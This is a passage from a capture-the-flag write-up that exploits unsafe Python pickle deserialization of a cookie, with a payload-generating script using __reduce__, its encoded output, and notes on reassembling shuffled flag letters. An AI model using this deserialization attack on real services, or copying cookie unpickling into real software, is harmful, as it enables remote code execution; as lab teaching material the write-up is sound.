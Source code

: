 That’s the easy part. But how do we generate the payload and insert this command within the bytecode of the cookie to be unpickled?

After some research, I found [the following article describing how we can use the `reduce` method to append additional commands to the bytecode payload](https://davidhamann.de/2020/04/05/exploiting-python-pickle/). The appended command will be used for retrieving the `FLAG` environmental variable.
I used the article to write a script to generate the bytecode payload, modifying it to suit my needs (the author needed to run some commands and get back a reverse shell, here we’re only interested in getting the `FLAG` environmental variable). This is the script called `payloadgen.py`:

```python
import pickle
import base64
import os
 
class PayloadGen(object):
   def __reduce__(self):
      return (os.getenv, ('FLAG',))
 
if __name__ == '__main__':
   dmp = pickle.dumps(PayloadGen())
   print(base64.urlsafe_b64encode(dmp))
```

I’m using `urlsafe_b64encode` here because I want to ensure that the generated encoded payload is URL safe. Also, the extra comma in `('FLAG',)` is there because the second item of the tuple returned by `reduce` must be a `tuple` as well.
I then ran the script:

```bash
python3 payloadgen.py
b'gASVHAAAAAAAAACMAm9zlIwGZ2V0ZW52lJOUjARGTEFHlIWUUpQu'
```

Nice! If we take the value ‘gASVHAAAAAAAAACMAm9zlIwGZ2V0ZW52lJOUjARGTEFHlIWUUpQu‘ and set the cookie to it and refresh the page, we get a scrambled set of letters which is likely our flag!

![scrambled](https://tilsupport.files.wordpress.com/2021/04/image-5.png)

The last piece of the puzzle is to figure out the correct order of the flag and reassemble it.

## Reassembling the Flag

If we look at the image above, we can see that the letters of the flag are displayed on the site in an unordered manner. When refreshing the page, the letters will be shuffled to a different order. By reviewing the HTML returned by the root path, we see that the method returns a random positioning for each `div` item:

```css
top: {random.random()*100}%;
left: {random.random()*100}%;
```

```python
return '<form method="post" action="/add" style="text-align: center; width: 100%"><input type="text" name="item" placeholder="Item"><button>Add Item</button><img style="width: 100%; height: 100%" src="/pickle.jpg">' + \
        ''.join(f'<div style="background-color: white; font-size: 3em; position: absolute; top: {random.random()*100}%; left: {random.random()*100}%;">{item}</div>' for item in items)
```
